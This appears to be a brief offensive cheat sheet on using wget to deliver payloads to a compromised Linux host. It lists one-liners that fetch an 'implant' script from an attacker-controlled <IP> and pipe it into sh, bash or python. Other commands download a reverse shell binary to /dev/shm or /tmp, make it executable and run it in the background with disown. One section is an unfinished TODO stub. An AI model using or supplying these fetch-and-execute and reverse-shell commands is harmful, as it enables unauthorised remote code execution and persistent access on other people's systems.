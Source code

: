 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget -qO- http[s]://<IP>/implant.sh | sh

$ wget -qO- http[s]://<IP>/implant.sh | bash

$ wget -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download reverse shell binary and execute it.

```
$ wget -P /dev/shm http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown

$ wget -O /dev/shm/implant http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown
```

## 03 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget -O /tmp/implant http[s]://<IP>/implant; chmod +x /tmp/implant; /tmp/implant & disown
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```

---
## References

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)